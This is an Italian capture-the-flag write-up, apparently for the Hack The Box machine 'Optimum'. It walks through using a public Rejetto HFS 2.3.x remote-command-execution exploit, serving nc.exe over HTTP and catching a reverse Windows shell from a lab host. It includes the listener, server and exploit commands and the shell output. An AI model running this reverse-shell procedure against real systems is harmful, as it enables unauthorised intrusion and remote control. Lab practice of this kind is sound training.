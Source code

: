 i primi due risultati ci portano a questa vulnerabilità,

Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
https://www.exploit-db.com/exploits/39161:
Copiamo il codice e diamogli un occhiata.

# GAINING AN INITIAL FOOTHOLD

Proof of concept:
Idea di base è quella di fare eseguire alla macchina 
target una richiesta http ad un ip stabilito per scaricare un nc ed una volta scaricato
farà una chiamata ad nostro nostra porta in ascolto...

modifichiamo il codice con in nostro ip e la porta a cui vogliamo che nc ci raggiunga

	ip_addr = "10.10.14.53" #local IP address
	local_port = "6969" # Local Port number

Kali ha una versione di nc per windows la troviamo e la copiamo nel directory

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# cp /usr/share/windows-resources/binaries/nc.exe .
```

Seguendo le istruzione del exploit tiriamo su un server per consentire a nc di essere scaricato

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# python -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
```

in un altra finestra ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 6969
listening on [any] 6969 ...
```

Siamo pronti per lanciare l'exploit
> *dal codice capito che dobbiamo usare python2 per via delle libreira "urllib2")*

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# python2 39161.py 10.10.10.8 80
```
 
Otteniamo cosi una shell
```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```
